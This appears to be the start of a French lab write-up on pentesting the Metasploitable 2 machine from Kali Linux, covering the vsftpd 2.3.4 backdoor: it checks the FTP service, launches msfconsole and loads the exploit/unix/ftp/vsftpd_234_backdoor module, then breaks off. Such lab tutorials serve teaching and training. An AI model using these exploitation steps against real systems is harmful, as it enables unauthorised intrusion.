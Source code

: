 # Pentest sur la machine Metasploit 2

## Exploitation de vsftpd 2.3.4

Sur la Kali Linux, vérifier que le service FTP est actif en effectuant une connexion : 
```bash
ftp <IP machine Metasploit>
```

### Lancement de Metasploit

```bash
sudo msfconsole
```

<p align="center">
    <img src="msfconsole.png" alt="msfconsole" style="width: 800px;" />
</p>

### Chargement et configuration du module d'exploitation

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
